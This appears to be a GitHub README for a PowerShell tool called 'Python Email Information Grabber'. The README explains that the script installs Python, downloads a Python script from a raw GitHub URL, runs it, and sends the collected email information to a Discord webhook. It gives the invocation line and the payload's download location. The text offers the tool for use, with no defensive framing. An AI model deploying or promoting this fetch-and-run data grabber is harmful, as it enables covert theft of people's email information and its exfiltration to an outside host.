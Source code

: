 # Python Email Information Grabber
![](https://img.shields.io/badge/-PowerShell-blue)
![](https://img.shields.io/badge/-Python-purple)


This PowerShell script is designed to automate the process of downloading Python and its dependencies to run a Python script that collects email information. The Python script is specifically intended to be used with a Discord webhook for sending the collected data.

## Prerequisites
Before using this script, ensure you have the following:

- Windows operating system
- An active internet connection

## How to Use
1. Open a PowerShell terminal.
2. Save the script to a local file with a `.ps1` extension.
3. Run the script by calling the `Grab-Emails` function. Optionally, you can provide a Discord webhook URL as a parameter to the function if you want to customize it. If no webhook URL is provided, the script will use a default webhook URL.

```powershell
Grab-Emails -wbhk "YOUR DISCORD WEBHOOK HERE"
```

## Functionality
The script provides the following functionality:

1. **InstallPython**: Downloads and installs Python version 3.9.6 for Windows. If Python is already installed, it will skip this step.
2. **InstallPipPackages**: Installs the required Python packages - `requests` and `pyautogui` - using `pip3`.
3. **RunPythonScript**: Downloads the Python script from a GitHub repository and runs it using the installed Python.

## Notes
- If Python is already installed on your system, the script will not reinstall it and will proceed with the existing installation.
- If `pip` is not installed, the script will install it to ensure that the required packages are installed properly.
- The script uses a default Python script located in the GitHub repository: [Adv Email Info Grab & Upload/emailgrabber.py](https://raw.githubusercontent.com/calinux-py/Python/main/Adv%20Email%20Info%20Grab%20%26%20Upload/emailgrabber.py). If you want to use a different Python script, you can replace the URL in the `RunPythonScript` function.
- The script replaces the Discord webhook URL placeholder (`YOUR DISCORD WEBHOOK HERE`) in the Python script with the provided webhook URL, allowing you to customize the Discord channel to which the email information is sent. If no webhook URL is provided, the script will use the default placeholder.
